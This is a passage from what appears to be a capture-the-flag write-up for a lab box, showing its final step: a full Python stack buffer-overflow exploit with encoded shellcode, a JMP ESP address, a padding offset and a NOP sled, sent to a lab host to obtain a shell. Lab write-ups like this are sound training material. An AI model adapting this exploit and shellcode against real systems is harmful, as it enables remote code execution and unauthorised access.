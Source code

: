 ### Step 6: Writing final exploit 

```python
import socket
import pwn

shellcode =  b""
shellcode += b"\xba\x9d\x29\x7f\xfa\xdd\xc4\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x12\x31\x50\x12\x03\x50\x12"
shellcode += b"\x83\x75\xd5\x9d\x0f\xb4\xfd\x95\x13\xe5\x42"
shellcode += b"\x09\xbe\x0b\xcc\x4c\x8e\x6d\x03\x0e\x7c\x28"
shellcode += b"\x2b\x30\x4e\x4a\x02\x36\xa9\x22\x9f\xc3\x6a"
shellcode += b"\x21\xf7\xd1\x6c\x54\x54\x5f\x8d\xe6\x02\x0f"
shellcode += b"\x1f\x55\x78\xac\x16\xb8\xb3\x33\x7a\x52\x22"
shellcode += b"\x1b\x08\xca\xd2\x4c\xc1\x68\x4a\x1a\xfe\x3e"
shellcode += b"\xdf\x95\xe0\x0e\xd4\x68\x62"

jmp_esp = 0x311712F3 #0x7BCCE5D9
offset = 495
buffer = b"A" * offset + pwn.p32(jmp_esp) + b"\x90" * 32 + shellcode

target = '10.10.92.146'
#target = '127.0.0.1'
port = 9999

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, port))
    s.send((b"                          >> " + buffer))
    s.close()
except:
    print(f"Error connecting to the server...")
```

And we got a shell as **puck**:

![](/assets/img/thm/linux/brainpan/shell2.png)

___

## Privesc
